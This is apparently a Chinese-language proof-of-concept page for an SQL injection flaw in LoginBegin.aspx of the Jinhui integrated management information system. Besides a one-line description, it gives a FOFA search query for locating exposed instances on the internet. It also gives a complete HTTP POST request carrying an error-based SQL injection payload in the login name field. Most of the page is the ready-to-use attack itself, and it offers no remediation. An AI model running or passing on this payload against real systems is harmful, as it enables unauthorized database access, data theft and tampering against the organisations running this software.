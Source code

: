# 金慧综合管理信息系统LoginBegin.aspx存在SQL注入漏洞

金慧综合管理信息系统LoginBegin.aspx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```kotlin
body="/Portal/LoginBegin.aspx"
```

## poc

```javascript
POST /Portal/LoginBegin.aspx?ReturnUrl=%2f HTTP/1.1
Host:127.0.0.1
User-Agent:Mozilla/4.0(compatible; MSIE 6.0;Windows NT 5.1; SV1;QQDownload732;.NET4.0C;.NET4.0E)
Content-Length:363
Content-Type: application/x-www-form-urlencoded
X-Requested-With:XMLHttpRequest
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

Todo=Validate&LoginName=1%27+AND+5094+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%2898%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%285094%3D5094%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28118%29%2BCHAR%28120%29%2BCHAR%28113%29%29%29+AND+%27JKJg%27%3D%27JKJg&Password=&CDomain=Local&FromUrl=
```

![9bf0a2e8296781c0d73ecfc9854d1bc0](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410071441284.png)